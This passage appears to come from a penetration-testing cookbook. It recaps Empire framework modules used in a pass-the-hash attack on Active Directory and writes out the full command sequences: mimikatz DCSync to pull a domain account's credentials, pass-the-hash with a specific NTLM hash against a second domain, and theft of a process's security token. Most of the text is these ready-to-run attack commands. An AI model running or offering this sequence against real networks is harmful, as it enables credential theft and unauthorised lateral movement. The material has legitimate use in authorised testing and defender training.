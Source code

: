 ```
(Empire: DCshop) > usemodule credentials/mimikatz/dcsync
(Empire: dcsync) > set user sysback
(Empire: dcsync) > set domain GBSHOP.CORP
(Empire: dcsync) > run
```

6. pth

- Performs pass-the-hash attacks by authenticating with NTLM hashes (uses the NTLM hash to spawn a process on the GBSALES domain, allowing authentication as the sysback account):

```
(Empire: DCshop) > usemodule credentials/mimikatz/pth
(Empire: pth) > set user sysback
(Empire: pth) > set domain GBSALES.CORP
(Empire: pth) > set ntlm 26bc129c0ea27a6e66cfaf3080fb7947
(Empire: pth) > run
```

7. interact

- Interacts with a process to obtain its security token (steals the security token from the spawned process to validate sysback's credentials and access remote resources):

```
(Empire: dcsync) > interact DCshop
(Empire: DCshop) > steal 3116
```

This recap summarizes the key functions and uses of each module involved in the pass-the-hash attack within this cookbook.
